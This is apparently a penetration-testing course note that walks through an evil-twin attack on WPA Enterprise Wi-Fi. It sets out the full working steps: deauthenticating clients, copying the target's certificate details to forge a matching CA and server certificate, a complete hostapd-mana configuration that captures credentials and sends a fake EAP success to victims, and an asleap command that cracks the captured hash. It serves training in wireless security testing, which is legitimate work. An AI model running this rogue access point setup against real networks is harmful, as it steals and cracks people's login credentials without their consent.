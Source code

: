 # Attacking WPA Enterprise

WPA Enterprise uses Extensible Authentication Protocol (EAP).[1](https://portal.offsec.com/courses/pen-210-9545/learning/attacking-wpa-enterprise-15796/attacking-wpa-enterprise-16073#fn-local_id_326-1) EAP is a framework for authentication, which allows a number of different authentication schemes or methods.

### Attack

Let's take a moment to summarize our attack. We will be creating a rogue AP to match the settings of our target as closely as possible. We will use hostapd-mana to create the rogue AP and match the target settings. This will help us capture the credentials, which we will crack later.



After putting our **wlan0** interface in monitor mode, we now have an interface called **wlan0mon**. We will identify the channel of the target AP and gather its ESSID and BSSID.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Let's return to our attack. Next, we will restart the capture on the same channel as the AP. This is similar to what we did when cracking WPA-PSK. We'll save the data to disk as Playtronics-01.cap.

In order to get the certificate, we can deauthenticate a client. We'll do this the same way we would with a WPA-PSK client, using _aireplay-ng_.

Once airodump-ng indicates we've captured a handshake, we can stop the capture. In most instances, a certificate is present. We will get the certificate from the enterprise authentication that happened before the handshake.

We can now disable monitor mode by running **sudo airmon-ng stop wlan0mon**.

We have to open the capture file with _Wireshark_ and locate the server certificate frame.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

For each certificate, we right click and select _Export Packet Bytes_ to save the data into a file with a .der extension.

As a root user, we'll need to navigate to /etc/freeradius/3.0/certs and change the settings of ca.cnf. We edit the **\[certificate\_authority]** fields to match our target CA certificate to appear less suspicious to clients in case they inspect the certificate.

```
...
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
...
```

The server information needs to be updated in server.cnf. This should be similar to what we did with the CA. We will edit the **\[server]** fields to match our target server certificate. We'll skip client.cnf because we don't need it.

```
...
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
...
```

delete the DH file before running make.

```
openssl dhparam -out dh -2 2048
```

we have to create the hostapd-mana configuration file, /etc/hostapd-mana/mana.conf:

```
# SSID of the AP
ssid=Playtronics

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

We'll now need to create the EAP user file referenced in the configuration file, /etc/hostapd-mana/mana.eap\_user. The file should contain the following.

{% code overflow="wrap" %}
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
{% endcode %}

We're ready to continue. Next, we'll start hostapd-mana with the configuration file we created earlier, /etc/hostapd-mana/mana.conf.

```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

When a victim attempts to authenticate to our AP, the login attempt is captured. These credentials are also in /tmp/hostapd.credout.

We will be using **asleap** to crack the password hash.

{% code overflow="wrap" %}
```
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
```
{% endcode %}

